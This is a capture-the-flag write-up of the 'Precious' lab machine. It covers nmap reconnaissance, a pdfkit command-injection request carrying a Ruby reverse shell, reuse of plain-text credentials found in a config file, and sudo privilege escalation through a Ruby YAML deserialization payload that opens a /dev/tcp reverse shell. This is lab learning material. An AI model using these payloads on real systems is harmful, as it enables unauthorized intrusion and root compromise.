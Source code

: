 # Information Gathering and Vulnerability Scanning

Nmap:
```bash
$ nmap -sC -sV -A 10.10.11.189 -o nmap.out
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-29 12:30 EDT
Nmap scan report for 10.10.11.189
Host is up (0.037s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.31 seconds
```

---
Get headers from burpsuite and got the server software and version: **Phusion Passenger(R) 6.0.15**
```sh
HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Connection: close
Status: 200 OK
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Date: Wed, 29 Mar 2023 17:11:00 GMT
X-Powered-By: Phusion Passenger(R) 6.0.15
Server: nginx/1.18.0 + Phusion Passenger(R) 6.0.15
X-Runtime: Ruby
Content-Length: 506
```
ExploitDB and CVE details does not show any vuln related. Still, it's valuable info!

---
Headers look weird to:
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

why image?

---
htmltopdf 0.12.6 is the plugin for ruby for the pdf
https://cyber-guy.gitbook.io/cyber-guys-blog/blogs/initial-access-via-pdf-file-silently

---
webserver is running `pdfkit v0.8.6` for the html to pdf
https://github.com/shamo0/PDFkit-CMD-Injection
https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795
---

# Attack & Exploits
PDFkit-CMD-Injection looks really good.

```r
POST / HTTP/1.1
Host: precious.htb
Content-Length: 144
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://precious.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://precious.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


url=http%3a//10.10.14.101%3a4040/%3fname%3d%2520`+ruby+-rsocket+-e'spawn("bash",[%3ain,%3aout,%3aerr]%3d>TCPSocket.new("10.10.14.101",4040))'`
```

```bash
python -m http.server 80
nc -lvnp 4040 

cd /home/ruby
cat .bundle/config
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:***********" 

su henry
Password: ***********
id
uid=1000(henry) gid=1000(henry) groups=1000(henry)
cd
cat user.txt
**************
```

----
# Priv escalation

Run common enum and found a custom script for update dependencies:
```bash
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Found this about priv esc in ruby:
https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ruby-privilege-escalation/
```bash
henry@precious:~$ cd /home/henry/
henry@precious:~$ vi dependencies.yml 
```
```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/10.10.14.136/4040 0>&1'"
         method_id: :resolve
```

Set up netcat listener:
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4040
listening on [any] 4040 ...
``` 

And finally run the script:
```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
```




# Analysis

- Outdate version on webserver is running `pdfkit v0.8.6` for the html to pdf causes a RCE for ruby user :(
- Then a plain text stored creds lead into henry user being affected
- Finally, priv esc:
	- sudo admin rights for a custom script? that's a risk
	- conbined that the scrip is not using absolute path leads into root running any dependecies.yml that is provided

Really funny box!
